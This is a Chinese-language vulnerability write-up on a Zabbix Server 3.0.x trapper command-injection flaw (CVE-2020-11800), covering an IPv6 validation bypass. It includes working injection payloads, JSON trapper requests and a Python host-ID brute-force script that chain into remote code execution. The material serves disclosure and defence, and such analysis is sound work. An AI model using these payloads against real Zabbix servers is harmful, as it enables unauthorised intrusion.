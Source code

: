 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8991)

漏洞描述
----

Zabbix Server 的 trapper 命令处理，存在命令注入漏洞，可导致远程代码执行。

漏洞影响
----

远程代码执行  
CVSSv3 Score  
9.0 - CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H  
AC: HIGH 需要服务端配置开启自动注册，或者 Zabbix Proxy（会认证主机名）自动发现。

影响版本
----

Zabbix 3.0.x~3.0.30  
[https://www.zabbix.com/cn/download?zabbix=3.0](https://www.zabbix.com/cn/download?zabbix=3.0)

漏洞分析
----

该漏洞原理与 CVE-2017-2824 相同，参考  
[https://talosintelligence.com/reports/TALOS-2017-0325](https://talosintelligence.com/reports/TALOS-2017-0325)  
active checks 是自动注册的命令字，自动注册的本意是 agent 可主动将主机注册给 server 进行监控，在 2.2.18 版本中可以在 IP 中注入（参见上文的版本分析处，2.2.19 版本才增加了 ip 校验）shell 命令。CVE-2017-2824 提到的漏洞在 discovery data 命令字即自动发现功能中，由于没有校验 IP，导致可在 IP 中写入 shell 命令，进而在执行 script cmd 时达到命令注入。  
比如在 IP 中写入内容

```
;touch /tmp/zabbix_pwned
```

那么执行 ping 命令时就变为

```
/bin/ping -c 3 ;touch /tmp/zabbix_pwned 2>&1
```

CVE-2017-2824 在 3.0.x 的修复办法是，对 IP 进行校验，代码如下：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210106093015-ba412714-4fbe-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210106093015-ba412714-4fbe-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210106093112-dca2e11c-4fbe-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210106093112-dca2e11c-4fbe-1.png)  
但是校验 IP 的方法可以被绕过，Ipv4 校验没问题，ipv6 校验可绕过:  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210106093148-f1b59720-4fbe-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210106093148-f1b59720-4fbe-1.png)  
输入为 ffff:::;touch /tmp/1234pwn 即可绕过，进而实现命令注入。

漏洞复现
----

### 添加自动注册规则

访问 portal 登录，依次点击菜单 Configuration->Actions，将 Event source 调整为 Auto registration  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210106093226-08ab9c54-4fbf-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210106093226-08ab9c54-4fbf-1.png)  
点击 Create action 后，第一个页签随便写一个名字  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210106093250-1705b67c-4fbf-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210106093250-1705b67c-4fbf-1.png)  
第二个页签设置条件  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210106093316-2668a3fe-4fbf-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210106093316-2668a3fe-4fbf-1.png)  
可配置 host name、proxy 和 host metadata 包含或不包含某个关键字，为了复现方便这里留空。  
第三个页签，指定操作，可以为发送消息、添加主机等，这里要选择 Add host。  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210106093347-38c240e6-4fbf-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210106093347-38c240e6-4fbf-1.png)  
以上规则的意思就是任意自动注册的 host，没有任何拒绝规则，都会直接添加到 server 中。

### 注册 host

```
{"request":"active checks","host":"helloworld","ip":"ffff:::;touch /tmp/1234pwn"}
```

执行以上 trapper 命令，利用自动注册添加 host

### 暴破 hostid

利用 command 命令字，暴破得到上一步添加的 host 的 id

```
def doCmd(ip, cmd):
    s = remote(ip, 10051)

    #length = socket.htonl(len(cmd))
    length = len(cmd)
    payload = 'ZBXD' + '\x01' + p32(length) + p32(0) + cmd

    s.send(payload)
    rsp = s.recv(400)
    info = json.loads(rsp)['info']
    print info
    if info.startswith('Unknown Host ID'):
        s.close()
        return False
    s.close()
    return True
def hostid_bruteforce():
    for ip in ipList:
        try:
            for i in range(10000, 20000):
                cmd_fmt = '{"request":"command","scriptid":"3","hostid":"%d","nodeid":"0"}'
                cmd = cmd_fmt%i
                rsp = doCmd(ip, cmd)
                try:
                    r = json.loads(rsp)['response']
                    if r == 'success':
                        print 'hostid = %d' % i
                except Exception as e:
                    print e                    
        except Exception as e:
            print e


```

### 触发命令注入

```
{"request":"command","scriptid":"1","hostid":"10106","nodeid":"0"}

```

执行 ping 命令，在 server 主机生成 / tmp/1234pwn 文件，注入成功。

修复建议
----

正确限制 IP

附录
--

[https://support.zabbix.com/browse/ZBX-17600](https://cve.mitre.org/cgi-bin/cvename.cgi?>https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11800</a><br>
<a href=)  
[https://support.zabbix.com/browse/ZBXSEC-30](https://support.zabbix.com/browse/ZBXSEC-30)